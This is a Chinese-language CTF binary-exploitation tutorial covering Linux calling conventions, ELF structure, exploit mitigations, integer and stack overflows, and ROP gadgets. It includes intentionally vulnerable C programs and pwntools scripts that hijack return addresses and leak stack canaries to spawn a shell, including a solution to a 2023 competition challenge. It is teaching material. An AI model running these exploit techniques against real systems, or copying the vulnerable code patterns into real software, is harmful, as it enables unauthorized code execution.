




# PWN | You-just-got-pwned!

- [PWN | You-just-got-pwned!](#pwn--you-just-got-pwned)
	- [第 1 章 PWN 基础](#第-1-章-pwn-基础)
		- [1.1 什么是 PWN](#11-什么是-pwn)
		- [1.2 如何学习 PWN](#12-如何学习-pwn)
		- [1.3 Linux 基础知识](#13-linux-基础知识)
			- [1.3.1 Linux 中的系统与函数调用](#131-linux-中的系统与函数调用)
			- [1.3.2 ELF 文件结构](#132-elf-文件结构)
			- [1.3.3 Linux 下的漏洞缓解措施](#133-linux-下的漏洞缓解措施)
				- [NX](#nx)
				- [Stack Canary](#stack-canary)
				- [ASLR（Address Space Layout Randomization）](#aslraddress-space-layout-randomization)
				- [PIE](#pie)
				- [Full Relro](#full-relro)
			- [1.3.4 GOT 和 PLT 的作用](#134-got-和-plt-的作用)
	- [第 2 章 整数溢出](#第-2-章-整数溢出)
		- [2.1 整数运算](#21-整数运算)
		- [2.2 整数溢出利用](#22-整数溢出利用)
			- [2.2.1 整数溢出转换成缓冲区溢出](#221-整数溢出转换成缓冲区溢出)
			- [2.2.2 整数溢出转数组越界](#222-整数溢出转数组越界)
	- [第 3 章  栈溢出](#第-3-章--栈溢出)
		- [3.1 栈溢出原理](#31-栈溢出原理)
			- [示例-3.1.1：简单栈溢出](#示例-311简单栈溢出)
			- [示例-3.1.2：2023网鼎杯pwn16](#示例-3122023网鼎杯pwn16)
		- [3.2 栈保护技术](#32-栈保护技术)
			- [示例-3.2.1：Canary机制](#示例-321canary机制)
		- [3.3 常发生栈溢出的危险函数](#33-常发生栈溢出的危险函数)
		- [3.4 可利用的栈溢出覆盖位置](#34-可利用的栈溢出覆盖位置)
	- [第 4 章 返回导向式编程](#第-4-章-返回导向式编程)
		- [4.1 寻找 Gadget](#41-寻找-gadget)
		- [4.2 返回导向式编程](#42-返回导向式编程)
	- [第 5 章 格式化字符串漏洞](#第-5-章-格式化字符串漏洞)
		- [5.1 漏洞原理](#51-漏洞原理)
			- [5.1.1 parameter](#511-parameter)
			- [5.1.2 flags](#512-flags)
			- [5.1.3 field width](#513-field-width)
			- [5.1.4 precision](#514-precision)
			- [5.1.5 length](#515-length)
			- [5.1.6 type](#516-type)
		- [5.2 C语言中的格式化字符串](#52-c语言中的格式化字符串)
			- [5.2.1 常见输出](#521-常见输出)
			- [5.2.2 标志字符为-、+、#、空格的输出](#522-标志字符为-空格的输出)
			- [5.2.3 精度输出](#523-精度输出)
			- [5.2.4 长度输出](#524-长度输出)
		- [5.3 基本利用方式](#53-基本利用方式)
			- [示例-5.3.1：格式化字符串漏洞基本利用](#示例-531格式化字符串漏洞基本利用)
		- [5.4 不在栈上的利用方式](#54-不在栈上的利用方式)
		- [5.5 一些特殊用法](#55-一些特殊用法)
		- [5.6 总结](#56-总结)
	- [第 6 章 堆利用](#第-6-章-堆利用)
		- [6.1 什么是堆](#61-什么是堆)
			- [6.1.1 Fast Bin](#611-fast-bin)
			- [6.1.2 Small Bin](#612-small-bin)
			- [6.1.3 Unsorted Bin](#613-unsorted-bin)
			- [6.1.4 Large Bin](#614-large-bin)
		- [6.2 简单的堆溢出](#62-简单的堆溢出)
		- [6.3 堆内存破坏漏洞利用](#63-堆内存破坏漏洞利用)


## 第 1 章 PWN 基础

### 1.1 什么是 PWN

在 CTF 中，PWN 主要通过利用程序中的漏洞造成内存破坏以获取远程计算机的 shell，从而获得 flag。

PWN 题目比较常见的形式是把一个用 C/C++ 语言编写的可执行程序运行在目标服务器上，参赛者通过网络与服务器进行数据交互。题目一般存在漏洞，攻击者可以构造恶意数据发送给远程服务器的程序，导致远程服务器执行攻击代码，从而控制远程服务器。

### 1.2 如何学习 PWN

二进制安全指代逆向工程和PWN。二进制安全的核心知识主要包括四大类：

- 编程语言和编译原理
- 汇编语言
- 操作系统和计算机体系结构
- 数据结构和算法

### 1.3 Linux 基础知识

#### 1.3.1 Linux 中的系统与函数调用

32 位 Linux 程序与 32 位 Windows 程序一样，在运行过程中也遵循栈平衡的原则。ESP 和 EBP 作为栈指针和帧指针寄存器，EAX 作为返回值。程序在函数初始化阶段赋值 EBP 为栈帧中间的某个位置，这样可以用  EBP 引用所有的局部变量。由于上一层的父函数也要使用  EBP ，因此要在函数开始时先保存 EBP ，再赋值 EBP 为自己的栈帧的值，例如：

```
push ebp
mov ebp, esp
```

其参数传递方式遵循传统的 cdecl 调用约定，即函数参数从右到左依次入栈，函数参数由调用者负责清除。

64 位 Linux 程序使用 fast call 的调用方式进行传参。同样源码编译的 64 位版本与 32 位的主要区别是，函数前 6 个参数会依次使用 RDI、RSI、RDX、RCX、R8、R9 寄存器进行传递，如果还有多余的参数，那么与 32 位的一样使用栈进行传递。

32 位 Linux 操作系统中，调用系统调用需要执行 int 0x80 软中断指令。此时，eax 中保存系统调用号，系统调用的参数依次保存在 EBX、ECX、EDX、ESI、EDI、EBP 寄存器中。调用的返回结果保存在 EAX 中。系统调用可以看作一种特殊的函数调用，只是使用 int 0x80 指令代替 call 指令。call 指令中的函数地址变成了存放在 EAX 中的系统调用号，而参数改成使用寄存器进行传递。

64 位 Linux 操作系统调用指令变成了 syscall，传递参数的寄存器变成了 RDI、RSI、RDX、R10、R8、R9，并且系统效用对应的系统调用号发生了变化。

#### 1.3.2 ELF 文件结构

Linux 下可执行文件格式为 ELF（Executable and Linkable Format），类似 Windows 的 PE 格式。需要注意三个概念：ELF 头、Section（节）、Segment（段）。

ELF 头必须在文件开头，标识这是个 ELF 文件及其基本信息。ELF 头包括 ELF 的 magic code、程序运行的计算机架构、程序入口等内容，可以通过 `readelf-h` 命令读取其内容，一般用于寻找一些程序的入口。

ELF 文件由多个节（Section）组成，其中存放各种数据。描述节的各种信息的数据统一存放在节头表中。ELF 中的节用来存放各种各样不同的数据，主要包括：

- .text 节：存放一个程序的运行所需的所有代码。
- .rdata 节：存放程序使用到的不可修改的静态数据，如字符串等。
- .data 节：存放程序可修改的数据，如 C 语言中已经初始化的全局变量等。
- .bss 节：存放程序的可修改数据，与 .data 不同的是，这些数据没有被初始化，所以没有占用 ELF 空间。虽然在节头表中存在 .bss 节，但是文件中并没有对应的数据。在程序开始执行后，系统才会申请一块空内存来作为实际的 .bss 节。
- .plt 节和 .got 节：程序调用动态链接库（SO 文件）中函数时，需要这两个节配合，以获取被调用函数的地址。

#### 1.3.3 Linux 下的漏洞缓解措施

##### NX

NX 保护在 Windows 中也被称为 DEP，通过现代操作系统的内存保护单元（Memory Protect Unit，MPU）机制对程序内存按页的粒度进行权限设置，其基本规则为可写权限与可执行权限互斥。在开启 NX 保护的程序中不能直接使用 shellcode 执行任意代码。所有可以被修改写入 shellcode 的内存都不可执行，所有可以被执行的代码数据都是不可被修改的。

GCC 默认开启 NX 保护，关闭方法是在编译时加入 `-z exestack` 参数。

##### Stack Canary

Stack Canary 保护是专门针对栈溢出攻击设计的一种保护机制。由于栈溢出攻击的主要目标是通过溢出覆盖函数栈高位的返回地址，因此其思路是在函数开始执行前，即在返回地址前写入一个字长的随机数据，在函数返回前校验该值是否被改变，如果被改变，则认为是发生了栈溢出，程序将终止运行。

GCC 默认使用 Stack Canary 保护，关闭方法是在编译时加入 `-fno-stack-protector` 参数。

##### ASLR（Address Space Layout Randomization）

ASLR 的目的是将程序的堆栈地址和动态链接库的加载地址进行一定的随机化，这些地址之间是不可读写执行的未映射内存，即使攻击者布置了 shellcode 并可以控制跳转，由于内存地址结构未知，依然无法执行 shellcode。

ASLR 是系统等级的保护机制，关闭方式是修改 `/proc/sys/kernel/randomize_va_space` 文件的内容为 0。

##### PIE

与 ASLR 保护相似，PIE 保护的目的是让可执行程序 ELF 的地址进行随机化加载，从而使程序的内存结构对攻击者完全未知，进一步提高程序的安全性。

GCC 编译时开启 PIE 的方法为添加参数 `-fpic -pie`。较新版本 GCC 默认开启 PIE，可以设置 `-no-pie` 来关闭。

##### Full Relro

Full Relro 保护与 Linux 下的 Lazy Binding 机制有关，主要作用是禁止 .GOT.PLT 表和一些相关内存的读写。

GCC 开启 Full Relro 的方法是添加参数 `-z relro`。

#### 1.3.4 GOT 和 PLT 的作用

ELF 文件中通常存在 .GOT.PLT 和 .PLT 这两个特殊的节，ELF 编译时无法知道 libc 等动态链接库的加载地址。如果一个程序想调用动态链接库中的函数，就必须使用 .GOT.PLT 和 .PLT 配合完成调用。

例如，`call _printf` 并不是跳转到了实际的 `_printf` 函数的位置。因为在编译时，程序不能确定 `printf` 函数地址，所以 `call` 指令实际上通过相对跳转，跳转到了 PLT 表中的 `_printf` 项。ELF 中所有用到的外部动态链接库函数都会有对应的 PLT 项目。

.PLT 表还是一段代码，作用是从内存中取出一个地址然后跳转。取出的地址是 `_printf` 的实际地址，存放这个 `_printf` 函数实际地址的地方就是 .GOT.PLT 表。

.GOT.PLT 表其实是一个函数指针数组，数组中保存着 ELF 中所有用到的外部函数的地址。.GOT.PLT 表的初始化工作由操作系统完成。某个函数必须被调用过，.GOT.PLT 表中才会存放函数的真实地址。

.GOT.PLT 和 .PLT 和 PWN 有什么关系？

- .PLT 可以直接调用某个外部函数，可用于栈溢出。
- .GOT.PLT 通常会存放 libc 中函数的地址，在漏洞利用中可以通过读取 .GOT.PLT 来获得 libc 的地址，或者通过写 .GOT.PLT 来控制程序的执行流。

## 第 2 章 整数溢出

### 2.1 整数运算

在 32 位 C 程序中，unsigned int 类型的长度是 32 位，能表示的最大的数是 0xffffffff，二进制  0xffffffff = 1111 1111 1111 1111 1111 1111 1111 1111（8 个 f 的二进制形式）。如果这个数加 1，其结果 0x100000000 就会超过 32 位能表示的范围，而只能截取其低 32 位，最终这个数字会变为 0，即无符号上溢。

计算机中有 4 种溢出情况，以 32 位整数为例：

- 无符号上溢：无符号数 0xffffffff 加 1 变为 0 的情况。
- 无符号下溢：无符号数 0 减去 1 变为 0xffffffff 的情况。
- 有符号上溢：有符号数正数 0x7fffffff 加 1 变为负数 0x8000000，即十进制 -2147483648 的情况。
- 无符号下溢：有符号负数 0x80000000 减去 1 变为正数 0x7fffffff 的情况。

有符号数字和无符号数直接的转换会导致整数大小突变。例如，有符号数字 -1 和无符号数字 0xffffffff 的二进制表示是相同的，二者直接进行转换会导致程序产生非预期效果。

### 2.2 整数溢出利用

整数溢出不像栈溢出等内存破坏可以直接通过覆盖内存进行利用，常常需要一定转换才能溢出。

#### 2.2.1 整数溢出转换成缓冲区溢出

无符号下溢可以将一个表示缓冲区大小的较小的数通过减法变成一个超大的整数，从而导致缓冲区溢出。

也可以通过输入负数的办法来绕过一些长度检查。例如，一些程序使用有符号数字表示长度，那么可以使用负数来绕过长度上限检查。而大多数系统 API 使用无符号数来表示长度，此时负数就会变成超大的正数导致溢出。

#### 2.2.2 整数溢出转数组越界

数组越界比缓冲区溢出更容易利用。

在 C 语言中，数组索引的操作只是简单地将数组指针加上索引来实现，并不会检查边界。因此，很大的索引会访问到数组后的数据，如果索引是负数，那么还会访问到数组之前的内存。

在数组索引的过程中，数组索引还要乘以数组元素的长度来计算元素的实际地址。

## 第 3 章  栈溢出

栈（stack）特点是以先进后出（First in last out）的方式存取栈中的数据。

函数调用的顺序也是最先调用的函数最后返回，因此栈非常适合保存函数运行过程中使用到的中间变量和其他临时数据。

### 3.1 栈溢出原理

栈溢出是缓冲区溢出的一种。函数的局部变量通常保存在栈上，如果这些缓冲区发生溢出，就是栈溢出。最经典的栈溢出利用方式是覆盖函数的返回地址，以达到劫持程序控制流的目的。

x86 架构中一般使用指令 call 调用一个函数，并使用指令 ret 返回。CPU 在执行 call 指令时，会先将当前 call 指令的下一条指令的地址入栈，再跳转到被调用函数。当被调用函数需要返回时，只需要执行 ret 指令，CPU 会将栈顶地址出栈，并赋值给 EIP 寄存器。

#### 示例-3.1.1：简单栈溢出

```
#include<stdio.h>
#include<unistd.h>

void shell(){
    system("/bin/sh");
}

void vuln(){
    char buf[10];
    gets(buf);
}

int main(){
    vuln();
}
```

使用如下命令进行编译，关闭地址随机化和栈溢出保护：

```
gcc -fno-stack-protector stack.c -o stack -no-pie
```

运行程序，用 IDA 调试，设置断点。

> 此处有一个问题待解决，IDA 中显示 char 为 16 个字节，而非 C 语言代码中我们预想的 10 字节。
>
> pwntools 脚本中的对应代码也从 p.sendline("a"*18+p64(0x40056A).decode('unicode_escape')) 更改为 p.sendline("a"*24+p64(0x40056A).decode('unicode_escape'))。


输入 8 个 A 后，退出 vuln 函数，程序执行 ret 指令时，在 Stack view 单击右键，选择 “Jump to RBP”。

- RSP 是堆栈指针寄存器，通常会指向栈顶位置，堆栈的 pop 和 push 操作就是通过改变 RSP 的值即移动堆栈指针的位置来实现的。

- RBP 是栈帧指针，用于标识当前栈帧的起始位置。

此时栈布局如下：



此时，栈顶保存的 0x4005A6 即返回地址，执行 ret 指令后，程序会跳转到 0x4005A6 的位置。

返回地址与输入的第一个 A 的距离为 16+8（Char + RBP） 字节，即 24 字节。如果输入 24 字节以上，则会覆盖返回地址。

IDA 中 Search Text，查找 `/bin/sh` 字符串，可以得到 shell 函数的位置为 0x40056A，我们的目的是让程序跳转到该函数，从而执行 `system("/bin/sh")`，从而获得 shell。


通过 pwntools 编辑攻击脚本：

```python
#!/usr/bin/python3
from pwn import *	# 引入 pwntools 库
p = process("./stack")	# 运行本地程序 stack

p.sendline("a"*24+p64(0x40056A).decode('unicode_escape'))
# 向进程中输入，自动在结尾添加 \n
# p64 函数自动将 64 位整数转换为 8 字节字符串，u64 函数则会将 8 字节字符转换为 64 位整数
# decode() 函数用于解决错误 TypeError: can only concatenate str (not "bytes") to str

p.interactive()	# 切换到直接交互模式
```

运行脚本，成功获得 shell。

#### 示例-3.1.2：2023网鼎杯pwn16

打开题目，F5 反编译，跟进函数 `overflow_()`。



```c
int overflow_()
{
  char buf[104]; // [esp+0h] [ebp-68h] BYREF

  printf("please input what you want say");
  read(0, buf, 0x80u);
  return puts(buf);
}
```

跟进 `shell()` 函数，找到 `system("/bin/sh")` 函数。也可以按 Shift+F12 组合键打开 Strings 窗口，全局搜索字符串。


按 Tab 切换窗口，得到跳转 `system("/bin/sh")` 的地址。


编写攻击脚本：

- 108 为 `char buf[104]` 加上寄存器 4 字节。
- 32 位程序，使用 p32 而不是 p64。

```python
#!/usr/bin/python3
from pwn import *
p = process("./bin16")
p.sendline("a"*108+p32(0x080485C6).decode('unicode_escape'))
p.interactive()
```

### 3.2 栈保护技术

栈溢出利用难度很低，但危害巨大。编译器开发者们引入 Canary 机制来检测栈溢出攻击。

Canary 机制在栈保存 RBP 的位置前插入一段随机数，如果攻击者利用栈溢出漏洞覆盖返回地址，会将 Canary 一起覆盖。编译器会在函数 ret 指令前添加一段检查 Canary 值是否 被改写的代码。如果被改写，则直接抛出异常，中断程序，从而阻止攻击发生。

但 Canary 机制不一定可靠，例如示例 2.3.2.1。

#### 示例-3.2.1：Canary机制

```c
#include<stdio.h>
#include<unistd.h>

void shell(){
    system("/bin/sh");
}

void vuln(){
    char buf[24];
    puts("input 1:");
    read(0, buf, 100);
    puts(buf);
    puts("input 2:");
    fgets(buf, 0x100, stdin);
}

int main(){
    vuln();
}
```

编译时开启栈保护：

```
gcc stack2.c -no-pie -fstack-protector-all -o stack2
```

vuln 函数进入是，会从 fs:28 中取出 Canary 的值，放入 rbp-8 的位置。在函数退出前，将 rbp-8 中的值与 fs:28 中的值进行比较，如果被改变，就调用 `__stack_chk_fail` 函数，输出报错信息并退出程序。


但程序在 vuln 函数返回前会将输入的字符串打印，这会泄露栈上的 Canary，从而绕过检测。

可以将字符串长度控制到刚好连接 Canary，就可以使 Canary 和字符串一起被 puts 函数打印。由于 Canary 最低字节为 0x00，为了防止被 0 截断，需要多发送一个字符来覆盖 0x00。

首先找到 shell 命令的地址 0x4006BD：


编写攻击脚本：

```python
#!/usr/bin/python3
from pwn import *
p = process("./stack2")
p.recv()
p.sendline(b"a"*24)
p.recvuntil(b"a"*24+b'\n')	# 接收到指定字符串为止
canary=b"\x00"+p.recv(7)	# 接收 7 个字符
print(canary)				# 泄露 canary
p.sendline(b"a"*24+canary +p64(0)+p64(0x4006BD))
p.interactive()
```

### 3.3 常发生栈溢出的危险函数

通过寻找危险函数，可以快速确定程序中是否可能有栈溢出，以及栈溢出的位置。常见的危险函数有包括输入、输出、字符串三种。

输入相关危险函数：

- gets()，直接读取一行，到换行符 `\n` 为止，同时 `\n` 被转换为 `\x00`；
- scanf()，格式化字符串中的 `%s`，不会检查长度；
- vscanf()，同上。

输出相关危险函数：

- sprintf()，将格式化后的内容写入缓冲区中，但是不检查缓冲区长度。

字符串相关危险函数：

- strcpy()，遇到 `\x00` 停止，不会检查长度，经常容易出现单字节写 0（off by one）溢出；
- strcat()，同上。

### 3.4 可利用的栈溢出覆盖位置

可利用的栈溢出覆盖位置通常有 3 种。

第一种，覆盖函数返回地址，之前的示例都是通过覆盖返回地址控制程序。

第二种，覆盖栈上所保存的 BP 寄存器的值。函数被调用时会先保存栈现场，返回时再恢复。以 x64 程序为例。

调用时：

```
push rbp
mov rbp,rsp
leave	;相当于 mov rsp,rbp	pop rbp
ret
```

返回时：

如果栈上的 BP 值被覆盖，那么函数返回后，主调函数的 BP 值会被改变，主调函数返回执行 ret 时， SP 不会指向原来的返回地址位置，而是被修改后的 BP 位置。

第三种，根据现实执行情况，覆盖特定的变量或地址的内容，可能导致一些逻辑漏洞的出现。

## 第 4 章 返回导向式编程

现代操作系统有比较完善的 MPU 机制，可以按照内存页的粒度设置进程的内存使用权限。内存权限分别有可读（R）、可写（W）和可执行（X）。一旦 CPU 执行了没有可执行权限的内存上的代码，操作系统会立即终止程序。

在默认情况下，基于漏洞缓解的规则，程序中不会存在同时具有可写和可执行权限的内存，所以无法通过修改程序的代码段或者数据段来执行任意代码。针对这种漏洞缓解机制，有一种通过返货到程序中特定的指令序列从而控制程序执行流程的攻击技术，被称为返回导向式编程（Return-Oriented Programming，ROP）。

栈溢出通过覆盖返回地址来劫持程序的控制流，并通过 ret 指令跳转到 shell 函数来执行任意命令。正常情况下，程序中不可能存在这种函数。但是，可以利用以 ret（0xc3）指令结尾的指令片段（Gadget）构造一条 ROP 链，来实现任意指令执行，最终实现任意代码执行。

具体步骤为：

- 寻找程序可执行的内存段中所有的 ret 指令，并查看在 ret前的字节是否包含有效指令。
- 如果包含有效指令，则标记片段为一个可用片段。
- 找到一系列这样的以 ret 结束的指令后，将这些指令的地址按顺序放在栈上。
- 每次执行完相应的指令后，其结尾的 ret 指令会将程序控制流传递给栈顶的新的 Gadget 继续执行。
- 栈上这段连续的 Gadget 构成了一条 ROP 链，从而实现任意指令执行。

### 4.1 寻找 Gadget

在漏洞利用过程中，比较常见的 Gadget 有以下三种类型。

第一种，保存栈数据到寄存器，例如：

```
pop rax;
ret;
```

第二种，系统调用，例如：

```
syscall;
ret;
```

```
int 0x80;
ret;
```

第三种，会影响栈帧的 Gadget，例如：

```
leave;
ret;
```

```
pop rbp;
ret;
```

寻找 Gadget 的方法包括：寻找程序中的 ret 指令，查看 ret 之前有没有所需的指令序列。也可以使用 ROPgadget、Ropper 等工具（更快速）。

- ROPgadget：https://github.com/JonathanSalwan/ROPgadget
- Ropper：https://github.com/sashs/Ropper

### 4.2 返回导向式编程

```c
#include<stdio.h>
#include<unistd.h>

int main(){
    char buf[10];
    puts("hello");
    gets(buf);
}
```

用如下命令进行编译：

```
gcc rop.c -o rop -no-pie -fno-stack-protector
```

与之前栈溢出所用的例子差别在于，程序中并没有预置可以用来执行命令的函数。

先用 ROPgadget 寻找这个程序中的 Gadget（`--ropchain` 参数自动寻找可用的 Gadget）：

```
ubuntu@ubuntu:~/Desktop/ROPgadget$ python3 ROPgadget.py --binary rop --ropchain
```

```
Gadgets information
============================================================
0x00000000004004ae : adc byte ptr [rax], ah ; jmp rax
0x0000000000400479 : add ah, dh ; nop dword ptr [rax + rax] ; ret
0x000000000040047f : add bl, dh ; ret
0x00000000004005dd : add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004005db : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x0000000000400437 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x400420
0x000000000040055d : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x000000000040052c : add byte ptr [rax], al ; add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x4004c0
0x00000000004005dc : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x000000000040052d : add byte ptr [rax], al ; add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x4004c0
0x000000000040055e : add byte ptr [rax], al ; add cl, cl ; ret
0x0000000000400439 : add byte ptr [rax], al ; jmp 0x400420
0x000000000040055f : add byte ptr [rax], al ; leave ; ret
0x00000000004004b6 : add byte ptr [rax], al ; pop rbp ; ret
0x000000000040052e : add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x4004c0
0x000000000040047e : add byte ptr [rax], al ; ret
0x00000000004004b5 : add byte ptr [rax], r8b ; pop rbp ; ret
0x000000000040047d : add byte ptr [rax], r8b ; ret
0x000000000040052f : add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x4004c0
0x0000000000400517 : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000400560 : add cl, cl ; ret
0x0000000000400447 : add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x400420
0x0000000000400518 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
0x0000000000400413 : add esp, 8 ; ret
0x0000000000400412 : add rsp, 8 ; ret
0x0000000000400478 : and byte ptr [rax], al ; hlt ; nop dword ptr [rax + rax] ; ret
0x0000000000400434 : and byte ptr [rax], al ; push 0 ; jmp 0x400420
0x0000000000400444 : and byte ptr [rax], al ; push 1 ; jmp 0x400420
0x0000000000400409 : and byte ptr [rax], al ; test rax, rax ; je 0x400412 ; call rax
0x0000000000400410 : call rax
0x0000000000400442 : fimul dword ptr [rbx] ; and byte ptr [rax], al ; push 1 ; jmp 0x400420
0x00000000004005bc : fmul qword ptr [rax - 0x7d] ; ret
0x000000000040047a : hlt ; nop dword ptr [rax + rax] ; ret
0x0000000000400533 : in eax, 0x5d ; jmp 0x4004c0
0x000000000040040e : je 0x400412 ; call rax
0x00000000004004a9 : je 0x4004b8 ; pop rbp ; mov edi, 0x601038 ; jmp rax
0x00000000004004eb : je 0x4004f8 ; pop rbp ; mov edi, 0x601038 ; jmp rax
0x000000000040043b : jmp 0x400420
0x0000000000400535 : jmp 0x4004c0
0x00000000004006e3 : jmp qword ptr [rbp]
0x00000000004004b1 : jmp rax
0x0000000000400561 : leave ; ret
0x0000000000400432 : loop 0x40043f ; and byte ptr [rax], al ; push 0 ; jmp 0x400420
0x0000000000400512 : mov byte ptr [rip + 0x200b1f], 1 ; pop rbp ; ret
0x000000000040055c : mov eax, 0 ; leave ; ret
0x0000000000400532 : mov ebp, esp ; pop rbp ; jmp 0x4004c0
0x00000000004004ac : mov edi, 0x601038 ; jmp rax
0x0000000000400531 : mov rbp, rsp ; pop rbp ; jmp 0x4004c0
0x00000000004004b3 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x000000000040047b : nop dword ptr [rax + rax] ; ret
0x00000000004004f5 : nop dword ptr [rax] ; pop rbp ; ret
0x0000000000400515 : or esp, dword ptr [rax] ; add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004005cc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004005ce : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004005d0 : pop r14 ; pop r15 ; ret
0x00000000004005d2 : pop r15 ; ret
0x0000000000400534 : pop rbp ; jmp 0x4004c0
0x00000000004004ab : pop rbp ; mov edi, 0x601038 ; jmp rax
0x00000000004005cb : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004005cf : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004004b8 : pop rbp ; ret
0x00000000004005d3 : pop rdi ; ret
0x00000000004005d1 : pop rsi ; pop r15 ; ret
0x00000000004005cd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400436 : push 0 ; jmp 0x400420
0x0000000000400446 : push 1 ; jmp 0x400420
0x0000000000400530 : push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x4004c0
0x0000000000400416 : ret
0x000000000040040d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x00000000004005e5 : sub esp, 8 ; add rsp, 8 ; ret
0x00000000004005e4 : sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004005da : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x000000000040040c : test eax, eax ; je 0x400412 ; call rax
0x000000000040040b : test rax, rax ; je 0x400412 ; call rax

Unique gadgets found: 74

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

	[-] Can't find the 'mov qword ptr [r64], r64' gadget

```

这个程序很小，可供使用的 Gadget 非常有限，其中没有 syscall 这类可以用来执行系统调用的 Gadget，所以很难实现任意代码执行。

针对这种情况，可以想办法先获取一些动态链接库（如 libc）的加载地址，再使用 libc 中的 Gadget 构造可以实现任意代码执行的 ROP。

